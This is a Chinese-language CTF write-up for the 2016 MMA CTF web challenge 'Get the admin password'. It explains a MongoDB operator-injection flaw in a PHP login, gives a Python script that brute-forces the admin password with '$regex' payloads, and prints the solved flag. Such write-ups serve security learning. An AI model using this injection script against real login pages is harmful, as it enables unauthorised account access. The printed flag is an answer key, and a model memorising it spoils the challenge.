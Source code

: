 title: '[MMA CTF 2nd 2016] Get the admin password 100'
author: bananaapple
tags:
  - web
  - sql injection
categories:
  - write-ups
date: 2016-09-06 00:45:00
---

# 漏洞解析

感謝隊友 Ann Tsai 試出來漏洞

我這裡負責剪尾刀把 script 寫完

大概試了一下可以發現漏洞是 sql injection 

只是由於 database 是 nosql 稍微有點不一樣

相關內容可以參考以下的這篇文章

https://www.idontplaydarts.com/2010/07/mongodb-is-vulnerable-to-sql-injection-in-php-at-least/

# payload

mongoDB 可以使用的 operator 可以參考以下連結

https://docs.mongodb.com/manual/reference/operator/query/

在這裡我使用的 regex 的形式

想法是 regex 的 pattern 使用 `^TWCTF{` 

代表 `TMCTF{` 開頭的字串

然後一個一個字元加 把 flag 爆出來

注意一下跳脫字元即可

payload 如下

```python3
#!/usr/bin/env python3
import requests
import string
import re
url = 'http://gap.chal.ctf.westerns.tokyo/login.php'
flag = '^TWCTF{'
print(string.printable)
while True:
    for c in string.printable:
        qq = flag+re.escape(c)
        print(qq)
        payload = {'user': 'admin', 'password[$regex]': qq,'submit': True}
        r = requests.post(url,payload)
        if 'TWCTF{...}' in r.text:
            flag+=c
            print(flag)
            break
```

# flag

```
TWCTF{wasshoi!summer_festival!}
```